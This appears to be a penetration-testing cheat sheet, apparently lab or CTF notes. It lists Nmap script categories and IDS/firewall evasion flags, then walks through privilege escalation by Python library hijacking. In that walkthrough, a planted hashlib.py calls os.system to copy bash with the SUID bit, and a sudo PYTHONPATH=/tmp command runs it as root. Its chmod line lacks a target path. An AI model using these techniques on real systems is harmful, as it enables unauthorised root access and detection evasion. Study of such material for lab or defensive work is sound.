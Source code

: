 ##### Nmap Script Scan Types:
```
    safe:- Won't affect the target
    intrusive:- Not safe: likely to affect the target
    vuln:- Scan for vulnerabilities
    exploit:- Attempt to exploit a vulnerability
    auth:- Attempt to bypass authentication for running services (e.g. Log into an FTP server anonymously)
    brute:- Attempt to bruteforce credentials for running services
    discovery:- Attempt to query running services for further information about the network (e.g. query an SNMP server).
```

##### Nmap default Scripts 
```
/usr/share/nmap/scripts/script.db
```

##### Firewall Evasion With Nmap
```
##### Nmap SYN Scan
During this scan only half packet is sent and reset flag is sent at end. This allows attacker to bypass old IDS.

-pN [Continues Scanning even if the host is not responding to ICMP packet]
-f [Breaks packet into fragments of Packets]
--scan-delay <time>ms [USeful if the network is unstable]
```

##### Privilege Escalation Via Python Library Hijacking
```
Vulnerable hashlib.py
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()


```

Here, we dont have write permission on the hashlib.py file but have write perm in the library hashlib

#### Create following file in /tmp directory with SUID flag set
```
hashlib.py
#!/usr/bin/env python3

import os
os.system("cp /bin/bash /tmp/bash; chmod +s; /tmp/bash")

```

##### sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py

<!--- https://hashes.com/en/decrypt/hash --->
